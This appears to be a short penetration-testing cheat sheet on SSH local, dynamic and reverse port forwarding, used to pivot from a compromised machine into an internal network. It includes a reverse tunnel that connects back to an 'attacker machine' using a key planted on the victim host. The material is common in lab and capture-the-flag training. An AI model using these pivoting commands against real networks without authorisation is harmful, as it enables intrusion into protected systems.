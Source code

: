 # SSH tunnelling / port forwarding

## Local(forward)

If compromised machine=172.16.0.5 and internal webserver=172.16.0.10

`ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN`  

Where we would access through attack machine `localhost:8000`, `-f` backgrounds immediately and `-N` is for no commands or shell just a connection.  


Open port 1337 on attack machine to proxy into protected network compromised machine=172.16.0.5.  

`ssh -D 1337 user@172.16.0.5 -fN`

## Reverse  

Accessing the attack machine from the compromised machine, useful if only ssh client is available on the compromised machine and not ssh server.  

On attack machine, generate keys.  

`ssh-keygen`  

Copy public key and edit `~/.ssh/authorized_keys` with:  

`command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty ssh-rsa jdfjfjjdd3bb3= user@machine`  

Check server status.  

`sudo systemctl status ssh`

Start ssh server.  

`sudo systemctl start ssh`  

After transfering private key to compromised machine.  

`ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN`  

Where 172.16.0.20 is attacker machine, 172.16.0.10 is internal webserver on protected network.

